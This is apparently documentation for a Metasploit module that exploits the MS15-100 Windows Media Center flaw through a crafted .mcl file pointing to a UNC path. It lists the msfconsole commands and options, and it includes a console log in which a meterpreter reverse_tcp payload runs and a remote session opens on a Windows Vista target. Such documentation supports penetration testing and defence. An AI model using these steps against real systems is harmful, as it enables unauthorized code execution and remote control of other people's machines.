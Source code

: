 ## Vulnerable Application

This module exploits a vulnerability in Windows Media Center. By supplying an UNC path in the .mcl file, a remote file will be automatically downloaded, which can result in arbitrary code execution.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/ms15_100_mcl_exe`
3. Do: `set FILENAME [filename.mcl]`
4. Do: `set FILE_NAME [filename.exe]`
5. Do: `set payload [windows/meterpreter/reverse_tcp]`
6. Do: `set SRVHOST [IP]`
7. Do: `set SRVPORT [number]`
8. Do: `exploit`

## Options

### FILENAME
The MCL file.

### FILE_NAME
The name of the malicious payload to execute.

### FOLDER_NAME
Share Name (Default: Random).

### SRVHOST
The local host to listen on. This must be an address on the local machine or 0.0.0.0.

### SRVPORT
The local port to listen on.

## Scenarios

### A run on Windows Vista (Build 6000) and Kali Linux 2019.3

  ```
  msf > use exploit/windows/fileformat/ms15_100_mcl_exe
  msf exploit(windows/fileformat/ms15_100_mcl_exe) >  set FILENAME file.mcl
    FILENAME => file.mcl
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > set FILE_NAME file.exe
    FILE_NAME => file.exe
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > exploit
    [*] Server started.
    [*] Malicious executable at \\192.168.1.3\Egoj\file.exe...
    [*] Creating 'file.mcl' file ...
    [+] file.mcl stored at /root/.msf4/local/file.mcl
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:49248) at 2019-11-27 10:11:45 -0700
  ```
